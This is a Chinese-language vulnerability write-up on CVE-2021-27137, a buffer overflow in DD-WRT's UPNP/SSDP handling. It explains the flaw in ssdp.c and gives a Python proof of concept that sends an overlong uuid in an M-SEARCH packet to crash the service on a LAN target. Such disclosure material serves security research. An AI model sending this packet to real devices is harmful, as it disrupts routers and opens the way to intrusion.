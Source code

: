 # DD-WRT UPNP缓冲区溢出漏洞 CVE-2021-27137

## 漏洞描述

默认情况下，DD-WRT中的UPNP处于禁用状态，并且仅在内部网络接口上侦听。

UPNP本质上是未经身份验证的UDP形式的协议–由于无法对协议强制执行身份验证，因此它既易于使用又具有不安全。

如果DD-WRT启用了UPNP服务，则坐在存在DD-WRT设备的LAN上的远程攻击者可以通过发送一个过长的`uuid`值来触发缓冲区溢出。

根据部署DD-WRT的平台的不同，可能存在缓解措施，也可能没有缓解措施，例如ASLR等，这使得可利用性取决于安装DD-WRT的平台。

## 漏洞影响

```
DD-WRT < 45723 版本
```

## 漏洞复现

通过查看源代码，`ssdp.c`可以很容易地发现有问题的代码：



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162248612.png)

用户提供的数据的未绑定副本被复制到缓冲区中，该缓冲区的大小限制为128个字节。

由于默认情况下未启用UPNP服务，因此重新创建漏洞的第一步是启用将自动启动该服务的服务

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162248025.png)

启动PoC脚本将触发upnp服务崩溃，这可以在启动以下python脚本几秒钟后看到

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162248047.png)

## 漏洞POC

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```
